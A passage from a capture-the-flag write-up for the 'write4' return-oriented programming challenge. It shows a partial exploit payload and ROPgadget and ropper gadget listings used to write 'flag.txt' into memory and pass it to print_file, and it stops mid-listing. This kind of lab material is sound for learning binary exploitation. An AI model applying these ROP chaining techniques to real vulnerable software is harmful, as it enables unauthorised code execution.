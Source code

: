 This seems useful enough. This provides us a way to load the first two parameter registers, meaning that we can pass an address into `print_file`. We know that the end of our payload will look something like:

```python
payload += p64(pop_rdi)
payload += p64(flag_address)
payload += p64(f_printfile)
```

Now, we need a way to store _flag.txt_ somewhere. We'll check for a `mov` gadget that moves a string to the \*_contents of an address_. Something like this might be helpful:

```nasm
MOV QWORD PTR [register_1], register_2
```

This would let us put _flag.txt_ in `register_2`, and then store it at the value of `register_1`. We would also need to control `register_1` to make this happen.

Let's check `ROPgadget` for some options:

{% tabs %}
{% tab title="ROPgadget" %}
```nasm
$ ROPgadget --binary write4 --only "mov|pop|ret"
Gadgets information
============================================================
0x00000000004005e2 : mov byte ptr [rip + 0x200a4f], 1 ; pop rbp ; ret
0x0000000000400629 : mov dword ptr [rsi], edi ; ret
0x0000000000400610 : mov eax, 0 ; pop rbp ; ret
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
0x000000000040068c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400692 : pop r15 ; ret
0x000000000040068b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400588 : pop rbp ; ret
0x0000000000400693 : pop rdi ; ret
0x0000000000400691 : pop rsi ; pop r15 ; ret
0x000000000040068d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004004e6 : ret

Unique gadgets found: 15
```
{% endtab %}

{% tab title="ropper" %}
```nasm
$ ropper --file write4 --search "mov|pop|ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov|pop|ret

[INFO] File: write4
0x00000000004005e2: mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret; 
0x0000000000400606: mov dword ptr [rbp + 0x48], edx; mov ebp, esp; call 0x500; mov eax, 0; pop rbp; ret; 
0x0000000000400629: mov dword ptr [rsi], edi; ret; 
0x0000000000400610: mov eax, 0; pop rbp; ret; 
0x00000000004004d5: mov eax, dword ptr [rip + 0x200b1d]; test rax, rax; je 0x4e2; call rax; 
0x00000000004004d5: mov eax, dword ptr [rip + 0x200b1d]; test rax, rax; je 0x4e2; call rax; add rsp, 8; ret; 
0x0000000000400609: mov ebp, esp; call 0x500; mov eax, 0; pop rbp; ret; 
0x00000000004005db: mov ebp, esp; call 0x560; mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret; 
0x0000000000400619: mov ebp, esp; mov edi, 0x4006b4; call 0x510; nop; pop rbp; ret; 
```